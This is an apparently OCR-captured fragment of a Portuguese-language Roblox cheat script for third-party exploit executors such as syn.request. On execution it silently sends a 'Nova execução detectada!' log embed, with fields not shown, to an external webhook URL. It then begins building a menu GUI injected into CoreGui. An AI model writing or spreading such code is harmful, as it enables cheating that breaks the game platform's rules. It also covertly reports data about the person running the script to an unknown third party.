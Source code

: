     local embedData = {
        ["username"] = "LOG DE EXECUÇÃO",
        ["avatar_url"] = "https://i.imgur.com/CF7wYq5.png",
        ["embeds"] = {{
            ["title"] = "Nova execução detectada!",
            ["description"] = "Script executado com sucesso no Roblox.",
            ["color"] = tonumber(0x00ff00),
            ["fields"] = embedFields,
            ["footer"] = {
                ["text"] = "Logs automáticos • " .. os.date("%d/%m/%Y %H:%M:%S")
            }
        }}
    }

    local body = {
        Url = webhookURL,
        Method = "POST",
        Headers = {["Content-Type"] = "application/json"},
        Body = HttpService:JSONEncode(embedData)
    }

    if syn and syn.request then
        syn.request(body)
    elseif request then
        request(body)
    elseif http and http.request then
        http.request(body)
    else
        warn("❌ Seu exploit não suporta requisições HTTP!")
    end
end

-- Envia o Webhook
sendWebhook()


--// Serviços
local CoreGui = game:GetService("CoreGui")
local Players = game:GetService("Players")
local TweenService = game:GetService("TweenService")
local UserInputService = game:GetService("UserInputService")
local RunService = game:GetService("RunService")
local LocalPlayer = Players.LocalPlayer

--// ScreenGui
local ScreenGui = Instance.new("ScreenGui")
ScreenGui.Parent = CoreGui
ScreenGui.ResetOnSpawn = false
ScreenGui.Name = "teste"

--// Menu Principal
local MainFrame = Instance.new("Frame", ScreenGui)
MainFrame.AnchorPoint = Vector2.new(0.5,0.5)
MainFrame.Position = UDim2.new(0.5,0,0.5,0)
MainFrame.Size = UDim2.new(0,650,0,400)
MainFrame.BackgroundColor3 = Color3.fromRGB(20,20,20)
MainFrame.BorderSizePixel = 0
Instance.new("UICorner", MainFrame).CornerRadius = UDim.new(0,8)
